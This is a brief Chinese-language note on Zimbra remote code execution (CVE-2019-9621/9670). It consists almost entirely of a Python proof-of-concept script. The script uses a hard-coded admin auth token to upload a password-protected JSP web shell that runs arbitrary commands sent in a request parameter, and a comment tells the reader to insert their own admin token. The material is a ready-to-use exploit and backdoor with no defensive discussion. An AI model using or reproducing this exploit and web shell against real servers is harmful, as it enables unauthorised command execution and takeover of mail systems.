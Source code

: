 ![](resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId34.png)

**简易poc**

    import requests

    file= {
    'filename1':(None,"whocare",None),
    'clientFile':("sunian.jsp",r'<%if("023".equals(request.getParameter("pwd"))){java.io.InputStream in=Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b));}out.print("</pre>");}%>',"text/plain"), 
    'requestId':(None,"12",None),
    }
    headers ={ 
    "Cookie":"ZM_ADMIN_AUTH_TOKEN=0_eb68a2a147c98c6d0c2257d7638c4f1256493b28_69643d33363a65306661666438392d313336302d313164392d383636312d3030306139356439386566323b6578703d31333a313539323733343831303035313b61646d696e3d313a313b747970653d363a7a696d6272613b7469643d393a3433323433373532323b",#改成自己的admin_token
    "Host":"foo:7071"
    }
    r=requests.post("https://192.168.37.137:7071/service/extension/clientUploader/upload",files=file,headers=headers,verify=False)    
    print(r.text)
